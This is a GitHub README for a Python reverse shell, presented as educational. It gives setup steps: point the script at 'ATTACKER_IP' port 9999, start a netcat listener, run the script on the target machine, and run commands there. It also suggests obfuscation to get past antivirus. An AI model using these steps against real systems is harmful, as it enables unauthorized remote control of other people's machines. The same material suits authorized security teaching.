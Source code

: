 # Python Reverse Shell

This is a simple Python reverse shell script that connects back to a remote attacker machine. It can be used for educational purposes to understand how reverse shells work.

## ⚠️ Disclaimer

This project is intended for educational and research purposes only. Do not use this on any network or device without proper authorization. Unauthorized access to computers and networks is illegal and unethical.

## Features

- Reverse shell connection over TCP
- Ability to execute shell commands on the remote machine
- Simple to set up and run
- Easily customizable for different IPs/ports

## How it Works

A **reverse shell** is a connection initiated by a target machine to the attacker's machine. Once the connection is established, the attacker can execute shell commands on the target system.

### Flow:
1. The attacker listens for incoming connections on a specific IP and port.
2. The target machine runs the reverse shell script, which connects back to the attacker’s machine.
3. Once the connection is established, the attacker can execute commands remotely on the target.

## Prerequisites

- Python 3.x installed on the target machine.
- The attacker must be able to listen on a specific IP and port, so make sure any firewalls or NAT settings allow the connection.

## Usage

### 1. Clone the Repository

```bash
git clone https://github.com/your-username/reverse-shell.git
cd reverse-shell
```

### 2. Modify the Reverse Shell Script

Edit the reverse shell Python script (`reverse_shell.py`) to match your attacker's IP and port.

```python
# reverse_shell.py
host = "ATTACKER_IP"  # Change this to your attacker's IP
port = 9999           # Change this to your attacker's port
```

### 3. Set up the Listener (on the Attacker's Machine)

On the attacker's machine, set up a listener using **netcat** or a similar tool to listen for incoming connections.

```bash
nc -lvp 9999
```

### 4. Run the Reverse Shell Script (on the Target Machine)

Once the listener is ready, run the reverse shell script on the target machine:

```bash
python3 reverse_shell.py
```

### 5. Interact with the Target System

Once the connection is established, you’ll be able to execute commands on the target machine from the attacker's terminal.

## Sample Output

On the attacker's machine:

```
listening on [any] 9999 ...
connect to [ATTACKER_IP] from [TARGET_IP] 12345
$ whoami
target_user
$ pwd
/home/target_user
```

## Customization

You can modify the following parts of the script to suit your needs:

- **IP and Port**: Change the target IP and port for the reverse connection.
- **Command Execution**: Customize the behavior of command execution as needed.

## Security Considerations

- **Encryption**: This basic script does not encrypt traffic. For a more secure reverse shell, consider wrapping the connection in SSL/TLS.
- **Detection**: Basic reverse shells like this can be easily detected by antivirus software. Obfuscation techniques or custom protocols may be necessary for advanced usage.

## Legal Disclaimer

This project is for **educational purposes** only and is not meant to be used maliciously. The author of this repository is **not responsible** for any misuse or damage caused by this tool. Use responsibly and always obtain permission before using it on any system or network.

---

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

## Contributing

If you'd like to contribute, feel free to open an issue or submit a pull request!

---

By using this repository, you agree to use it responsibly and ethically.

